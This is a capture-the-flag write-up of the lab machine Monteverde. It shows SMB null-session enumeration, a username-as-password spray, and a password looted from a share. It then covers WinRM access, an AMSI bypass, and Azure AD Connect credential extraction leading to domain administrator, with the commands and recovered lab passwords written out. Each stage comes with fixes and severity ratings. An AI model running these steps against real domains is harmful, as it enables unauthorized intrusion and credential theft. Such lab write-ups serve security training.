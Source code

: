 # Monteverde – 10.10.10.172

To begin with, a Nmap scan will be issued to obtain all the open TCP ports on the target. Following command is used ```sudo nmap -sS --min-rate 10000 -p- monteverde.htb```

![image](images/Monteverde/Imagen1.png)

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -sC -sV -O --min-rate 1000 -p53,88,135,139,389,445,464,593,636,5985,9389 monteverde.htb```

![image](images/Monteverde/Imagen2.png)

As it can be seen in the previous picture, domain name is « megabank.local » which will be added to hosts file.

### SMB Enumeration

Due to the open ports and running services, Monteverde seems to be a Domain Controller.

First thing will be to enumerate SMB service using “CrackMapExec”.

Lets check if the server allows null session with ```crackmapexec smb megabank.local -u '' -p '' ```

![image](images/Monteverde/Imagen3.png)

As it is allowed, lets enumerate domain users with ```crackmapexec smb megabank.local -u '' -p '' --users```
 
![image](images/Monteverde/Imagen4.png)

Next step is to enumerate shares with ```crackmapexec smb megabank.local -u ‘’ -p ‘’ --shares```.
 
![image](images/Monteverde/Imagen5.png)

After some failed tests, I decided to check if any user’s password was equal to the username. Used command for that was```“crackmapexec smb megabank.local -u usernames.txt -p usernames.txt --shares```, if any valid credentials are found, it will try to enumerate domain shares. 
 
![image](images/Monteverde/Imagen6.png)

As shown in previous picture, new domain credentials were found ```SABatch-Jobs:SABatchJobs```.

Using the newly found set of credentials I will spider all the shares looking for the pattern “.” In order to find any juicy files. Command used is ```crackmapexec smb megabank.local -u ‘SABatchJobs’ -p ‘SABatchJobs’ --spider users$ --pattern ‘.’```
 
![image](images/Monteverde/Imagen7.png)

One file is found ```azure.xml```. After downloading it using smbclient, I check its contents.
 
![image](images/Monteverde/Imagen8.png)

A new password is found ```4n0therD4y@n0th3r$```. As it is stored in a file located on user’s ```mhope``` personal directory, it is probably related to this user. However, all the usernames will be checked by performing a password spraying attack using crackmapexec ```crackmapexec smb megabank.local -u usernames.txt -p '4n0therD4y@n0th3r$' --continue-on-success```
 
![image](images/Monteverde/Imagen9.png)

As it is shown in the picture, the password is user’s ```mhope``` domain password.

### LDAP Enumeration

After getting Domain credentials is useful to perform LDAP authenticated enumeration us-ing python. My main goal now is to obtain more info about user ```mhope``` (who is not allowed to authenticate via LDAP).

```
>>>import ldap3
>>>server=ldap3.Server(’10.10.10.172’, get_info=ldap3.ALL, port=389, use_ssl= False)

>>>connection=ldap3.Connection(server, 'SABatchJobs', 'SABatchJobs')

>>>connection.bind()
True
>>>server.info
```

![image](images/Monteverde/Imagen10.png)

Now that naming context is known, more info can be extracted.

```
>>>connection.search('dc=megabank,dc=local', '(objectclass=user)')

>>>connection.entries

```
 
![image](images/Monteverde/Imagen11.png)

```
>>>connection.search('CN=Mike Hope,OU=London,OU=MegaBank Us-ers,dc=megabank,dc=local', '(objectclass=user)', search_scope='SUBTREE', attributes='*')

>>>connection.entries
```
![image](images/Monteverde/Imagen12.png)

Now we know that user ```mhope``` is a member of the Security Groups ```Azure Admins``` and ```Remote Management Users```. As a result of the second membership, he can access the domain controller through ```WinRM```.

## Initial Access – Insecure Credentials

**Vulnerability Explanation**: after enumerating domain users through SMB using a null ses-sion, it was found that user’s ```SABatchJobs``` password was equal to the username. Using these credentials, it was possible to find a file stored on another user’s personal directory that contained another password. After performing a Password Spraying Attack, it was found that this password was user’s ```mhope``` domain password.

**Vulnerability Fix**: avoid using the same username as password. Avoid storing publicly readable files containing cleartext passwords.

**Severity**: Critical

**Steps to reproduce the attack**:

-	Steps to obtain credentials for user ```mhope``` are explained on SMB Enumeration
-	Authenticate through WinRM using ```evil-winrm -i megabank.local -u mhope -p ‘4n0therD4y@n0th3r$’ ```
-	Grab ```C:\Users\mhope\Desktop\user.txt```
 
![image](images/Monteverde/Imagen13.png)

## Post-Exploitation

Once obtained access to the DC, it is time to enumerate its contents. First thing done was to bypass amsi using ```Evil-winrm``` functionality ```Bypass-4MSI```. After that, ```winpeas```is uploaded to the server.
 
![image](images/Monteverde/Imagen14.png)

As ```mhope``` is a member of ```Azure Admins``` the highlighted installed software is quite interesting. 

Looking through google, I found ![this](https://blog.xpnsec.com/azuread-connect-for-redteam/) post where there is a good explanation of how to lever-age Azure AD Connect to escalate privileges.

In order to allow Active Directory users to authenticate using AD credentials and access cloud services such as Azure, Office365 and more, there are three main different ways in which Azure AD can be configurated to integrate with existing Active Directory deployments:
- Password Hash Synchronization: uploading AD password hashes to Azure AD.
- Pass-through Authentication: allows Azure AD to forward authentication requests onto on-prem AD.
- Federated Authentication: traditional ADFS deployment.

Here, the first one is being used.

By default, ```MSOL[hex_value]``` user is the one that takes care of Active Directory to Azure replication. To support the synchronization service, metadata and configuration data is stored (parts of the data are encrypted using ```mcrypt.dll```) on the MSSQL database that by default is created when the Azure connector is deployed onto a host. Among that data is ```MSOL_[hex]``` user password’s hash. In this case “mhope” as a member of "Azure Admins” can access the MSSQL database.

A PowerShell PoC that uses the before mentioned DLL can be found ![here](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). Using this poc script is possible to retrieve the stored cleartext domain, username and password.

## Privilege Escalation – Misconfigured Azure AD Connect

**Vulnerability Explanation**: a deeper explanation can be found in the previous section Post-Exploitation. The user whose credentials are used to synchronize AD with Azure AD is ```Administrator```. Then, once these credentials are retrieved using the above mentioned PoC, Domain Administrator account is compromised.

**Vulnerability Fix**: never use an Administrator account to perform this task as Administrative privileges are not required.

**Severity**: Critical

**Steps to reproduce the attack**: 

- Download the ![script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) and upload it to the host.
 
![image](images/Monteverde/Imagen15.png)

- Import the module and execute it ```Azure-ADConnect -server 127.0.0.1 -db ADSync```
 
![image](images/Monteverde/Imagen16.png)

- Access through WinRM as Administrator with Evil-WinRm with ```evil-winrm -I mega-bank.local -u Administrator -p “d0m@in4dminyeah!```
 
![image](images/Monteverde/Imagen17.png)

**Screenshot**:

![image](images/Monteverde/Imagen18.png)

